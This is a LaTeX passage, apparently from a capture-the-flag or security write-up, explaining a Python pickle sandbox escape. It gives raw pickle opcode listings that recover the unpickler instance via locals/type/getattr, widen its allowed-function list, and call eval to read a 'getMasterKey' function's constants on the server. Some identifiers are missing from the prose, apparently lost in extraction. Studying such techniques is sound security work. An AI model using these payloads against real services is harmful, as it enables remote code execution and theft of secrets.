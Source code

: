 \documentclass[a4paper]{article}
\begin{document}
There is no pickle opcode to retrieve an element in the dict, and there is no authorized functions neither so we have to use something else to retrieve the  instance in the dict generated by  function.\newline

The builtin function  with three arguments can be used to create a new object:
\begin{itemize}
    \item arg1: The name string is the class name and becomes the  attribute.
    \item arg2: The bases tuple itemizes the base classes and becomes the  attribute.
    \item arg3: the dict dictionary is the namespace containing definitions for class body and becomes the  attribute.
\end{itemize}

Using the dict generated by the  function as the third argument to  function permit to retrieve the  instance with the  function:
\begin{lstlisting}[language=Python,caption={},numbers=none,style=colortilde]
GLOBAL '__builtin__ locals'
MARK
        TUPLE
REDUCE
PUT 100

GLOBAL '__builtin__ type'
MARK
        STRING "X"
        MARK
                GLOBAL '__builtin__ list'
                TUPLE
        GET 100
        TUPLE
REDUCE
PUT 100

GLOBAL '__builtin__ getattr'
MARK
        GET 100
        STRING "self"
        TUPLE
REDUCE
PUT 100
 
GLOBAL '__builtin__ str'
MARK
		GET 100
        TUPLE
REDUCE
PUT 101
 
MARK
	DICT
	STRING 'msg'
	GET 101
SETITEM

STOP
\end{lstlisting}

With the reference to the  instance it's possible to redefine the  list to allow new functions.

We add the builtin  function to the  to execute python code on the server. The following pickle code (get constants of  function) is used to retrieve the link to the next step (full pickle exploit available at listing \ref{Pickle_escape}):
\begin{lstlisting}[language=Python,caption={},numbers=none,style=colortilde]
GLOBAL '__builtin__ globals'
MARK
	TUPLE
REDUCE
PUT 104

GLOBAL '__builtin__ eval'
MARK
	STRING 'str(__import__("viewstate").SecretStore.getMasterKey.func_code.co_consts)'
	GET 104
	TUPLE
REDUCE
PUT 105
\end{lstlisting}
\end{document}
